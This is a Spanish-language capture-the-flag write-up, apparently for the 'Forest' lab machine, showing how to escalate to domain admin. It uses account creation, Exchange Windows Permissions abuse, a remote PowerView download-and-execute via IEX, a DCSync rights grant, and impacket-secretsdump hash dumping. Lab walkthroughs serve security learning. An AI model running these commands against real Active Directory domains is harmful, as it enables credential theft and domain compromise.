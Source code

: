 ### Rootear la maquina {-}

El usuario svc-alfresco es miembro del groupo service accounts que es miembro de grupo privileged accounts que es miembro 
del grupo account operators.

Este grupo account operators tiene permissions de typo Generic all sobre el grupo Exchange windows permissions. Si buscamos
por internet lo que es el account operators vemos que es un grupo de verdad que permitte crear usuarios y privilegios. Lo comprobamos
en el evil-winRM

```bash
net user s4vitar s4vit4r123$! /add /domain
net user s4vitar
```

Effectivamente podemos crear usuarios.

Si seguimos analysando el BloodHound vemos que el grupo exchange Windows permission tiene capacidad de typo WriteDacl sobre el dominio.
Si hacemos un click derecho sobre el **WriteDacl** podemos mirar mas informaciones

```{r, echo = FALSE, fig.cap="Bloodhound abuse WriteDacl", out.width="90%"}
    knitr::include_graphics("images/Forest-Abuse_writedacl.png")

![Forest-Abuse_writedacl](/assets/images/Forest-Abuse_writedacl.png) 
    ```bash
    net group
    net group "Exchange Windows Permissions" s4vitar /add
    net user s4vitar
    ```

1. Passamos a la maquina victima el powerView

    - en la maquina de atacante

        ```bash
        wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1
        python3 -m http.server 80
        ```

    - en la maquina victima

        ```bash
        IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8/powerview.ps1')
        ```

1. Asignamos el privilegio ds sync al usuario s4vitar

    ```bash
    $SecPassword = ConvertTo-SecureString 's4vit4r123$!' -AsPlainText -Force
    $Cred = New-Object System.Management.Automation.PSCredential('htb.local\s4vitar', $SecPassword)
    Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity s4vitar -Rights DCSync
    ```

1. Desde la maquina de atacante podemos lanzar un impacket-secretsdump para recuperar los hashes de los usuarios

    ```bash
    impacket-secretsdump htb.local/s4vitar@10.10.10.161
    ```

Ya tenemos el hash del usuario administrador
```